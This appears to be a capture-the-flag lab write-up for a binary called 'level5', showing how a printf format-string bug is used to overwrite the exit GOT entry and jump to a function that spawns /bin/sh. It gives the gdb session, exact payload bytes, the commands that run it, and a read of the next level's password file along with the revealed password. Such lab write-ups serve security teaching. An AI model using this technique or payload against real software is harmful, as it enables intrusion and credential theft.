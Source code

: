 solution level5:

-> gdb level5

-> the main simply calls function "n"

-> we disassemble function n and we can observe the following:
- some space is allocated on the stack
- the function fills a buffer with a call to fgets
- next the printf method is called with the buffer passed as argument
- finally the exit method is called

-> by looking at the existing functions in the program with "i func", we notice another function called "o"

-> "o" simply calls the system method to open a new shell (/bin/sh) then calls exit

-> we need to find a way to call "o", and we know that we can exploit the printf method to modify the memory of our program

-> the next and only instruction after printf is the call to exit
> (gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
...
The exit method makes a jump to the instruction stored at address 0x08049838;
> (gdb) x/x 0x8049838
0x080483d6
0x080483d6 will be the address to replace.
The address of function "o" is 0x080484a4. The first 2 bytes being equal, we only need to replace the last 2 bytes by 84a4, which is 33956 in decimal.

-> our buffer will contain:
- the address of the memory we want to change -> \x38\x98\x04\x08
- our number minus the size of the address above : 33956 - 4 = 33952 -> %33952x
- the %n modifier, but only half of the address needs to be changed, so we'll use the size specifier 'h'. We also need to indicate the argument index, which is 4 -> %4$hn

> scp -P 2222 Ressources/run.sh level5@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/buff - | ./level5
> cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
